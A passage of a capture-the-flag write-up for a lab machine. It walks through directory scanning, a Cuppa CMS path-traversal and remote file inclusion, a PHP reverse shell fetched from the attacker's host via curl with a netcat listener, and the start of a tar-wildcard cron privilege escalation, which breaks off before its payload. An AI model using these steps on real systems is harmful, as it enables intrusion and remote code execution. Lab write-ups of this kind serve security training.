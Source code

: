     -----------------
    
    GENERATED WORDS: 81642                                                         
    
    ---- Scanning URL: http://10.10.166.117/45kra24zxs28v3yd/ ----
    ==> DIRECTORY: http://10.10.166.117/45kra24zxs28v3yd/administrator/                               
    --> Testing: http://10.10.166.117/45kra24zxs28v3yd/smartphon
- The above output shows there is a administrator page and once you navigate it will show the *Cuppa CMS* login page.

### Exploiting the Web Application 

- The Cuppa CMS has [vulnerability](https://www.exploit-db.com/exploits/25971), where we can inject the php code. 
- Using this known vulnerability, frame the URL to access the user flag: `http://10.10.166.117/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../home/milesdyson/user.txt`
- But this will not work for root flag because of permissions.

### Getting a Reverse Shell 

- Using the **Remote File Inclusion,** we can include the php remote shell code from [Pentest Monkey](http://pentestmonkey.net/tools/php-reverse-shell).
- Update the ip and port to our local, where we need to get the reverse shell. 
- 

    $ip = '10.2.18.4';  // CHANGE THIS
    $port = 4444;       // CHANGE THIS

- Open a simple http server from the location where the php reverse shell is, using `python3 -m http.server`, so the attacker will be able to download the file.
- Open a netcat on 4444 `nc -lnvp 4444`.
- From the terminal, send a request including Remote File Inclusion. 
`curl http://10.10.166.117/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig\=http://10.2.18.4:8000/php-reverse-shell.php`
- This will open up the remote shell with the id `www-data` and capture the user flag at `/home/milesdyson/user.txt`.

### Escalating the privileges 

- By checking the crontab entries, there is one entry that is performing backup every minute and by root id. 
`*/1 *   * * *   root    /home/milesdyson/backups/backup.sh` 
-

    cat /home/milesdyson/backups/backup.sh
    #!/bin/bash
    cd /var/www/html
    tar cf /home/milesdyson/backups/backup.tgz *


- We will be exploiting using the [Wildcard on Linux](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/).
- Open another netcat session on the attacker machine with a different port, 4446 to get the reverse shell. 
- Create a payload for reverse shell with destination: 
- 

